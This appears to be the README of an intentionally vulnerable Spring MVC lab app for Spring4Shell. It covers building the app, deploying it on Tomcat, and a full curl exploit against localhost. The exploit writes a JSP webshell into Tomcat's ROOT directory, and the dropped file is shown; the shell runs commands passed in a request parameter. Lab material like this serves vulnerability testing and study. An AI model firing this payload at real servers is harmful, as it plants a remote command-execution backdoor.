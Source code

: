 # Intentionally Vulnerable Spring Framework Application

This application is vulnerable to Spring4Shell.

## How do I use this?

First, this was tested on Ubuntu 21.04 (because I hate myself) and OpenJDK 11. Once you've accepted that, snag the code and build it.

```
git clone https://github.com/jbaines-r7/spring4shell_vulnapp.git
cd spring4shell_vulnapp
mvn package
```

That should generate a war file in target. You can load that into Tomcat. How? Something like:

```
wget https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.77/bin/apache-tomcat-8.5.77.zip
unzip apache-tomcat-8.5.77.zip
chmod +x apache-tomcat-8.5.77/bin/*.sh
cp target/vulnerable-1.0.0.0.war apache-tomcat-8.5.77/webapps/
./apache-tomcat-8.5.77/bin/startup.sh
```

It should be ready to test! The orginal Tomcat webshell exploit is good as far as I'm concerned:

```
curl -vv -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://localhost:8080/vulnerable-1.0.0.0/rapid7
```

The file is dropped to disk:

```
cat ./apache-tomcat-8.5.77/webapps/ROOT/tomcatwar.jsp 
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))3D-1){ out.println(new String(b)); } } -
```

Done!

## Credit

This is a modified version of [Ramesh Fadatare's](https://github.com/RameshMF) [Spring MVC Tutorial: Helloworld Example](https://github.com/RameshMF/spring-mvc-tutorial/tree/master/springmvc5-helloworld-exmaple). Thank you Ramesh for the easy to use code.
